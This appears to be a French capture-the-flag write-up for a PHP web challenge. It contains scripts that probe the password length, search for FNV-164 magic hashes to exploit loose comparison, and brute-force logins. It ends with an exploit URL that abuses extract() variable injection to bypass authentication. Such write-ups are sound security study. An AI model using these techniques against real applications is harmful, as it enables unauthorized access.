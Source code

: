 ## Enonce

![](./enonce.png)

On atterrit ici:
 
![](./chall.png)

## Conditions

Si l'on fournit en `GET` un parametre `?password=test` les comparaisons échouent et le même code source est affiché.

Voici un petit script pour trouver la longueur:

```python
import requests, time

url = "https://salty-authentication.france-cybersecurity-challenge.fr/?password="
params_template = {"password": ""}

'''
$salt = bin2hex(random_bytes(12));  # 24 chars

extract($_GET);

$secret = gethostname() . $salt;
'''
for i in range(24, 40):
        params = params_template.copy()
        response = requests.get(url+'a'*i)
        time.sleep(0.2)
        if "highlight_file" not in response.text:
                print(i)
```

Nous trouvons une longueur de `36`.

## Magic hash

On remarque tout de suite la 2nde condition `if (hash('fnv164', $password) == hash('fnv164', $secret))`:

Voici un script permettant de faire un magic hash de la bonne taille pour forcer un `===0`

```php
<?php

$counter =0;
while(1){
    $p = bin2hex(random_bytes(18));
    $counter+=1;
    if (hash('fnv164',$p)==0) {

        $h = hash('fnv164',$p); 
        echo $p;
        echo "\n";
        echo $h;
        echo "\n";
        echo $counter;
        exit();

    }
}

?>
```

![](./wrong.png)

Et après le `random` est bien embêtant ...

On pourrait bruteforcer pendant des heures avec ce genre de script mais c'est interdit x)

```python
import sys
import requests
import time

if len(sys.argv) < 2:
    print("Usage: python solve.py <pass>")
    sys.exit()

password = sys.argv[1]

i = 0
while True:
        response = requests.get(f'https://salty-authentication.france-cybersecurity-challenge.fr/?password={password}')
        print(response.text)
        if "Wrong" not in response.text:
                break
        time.sleep(0.33)
        print("essai n° ", i)
        i+=1
```

## Extract()?

En me repenchant dessus j'ai trouvé une vuln: on peut appeler `log_attack`:
Voir:

- https://github.com/HackThisSite/CTF-Writeups/blob/master/2016/SCTF/Ducks/README.md
- https://davidnoren.com/post/php-extract-vulnerability/

![](./log_attack.png)

Et récupérer le hostname:

![](./hostname.png)

## Réinitialisation du salt

On réutilise notre script PHP.

Grâce à extract on peut:

- préciser notre premier salt
- mettre un 2nd password (avec un nouveau salt) pour avoir 

```php
$password !== $secret
```

et

```php
hash('fnv164', $password) == hash('fnv164', $secret)
```

![](./solve.png)

On a plus qu'à:

`https://salty-authentication.france-cybersecurity-challenge.fr/?password=HASH_DU_SECRET&log_attack=extract($_SERVER);&salt=NOUVEAU_SALT`

Tada!!

![](./flag.png)
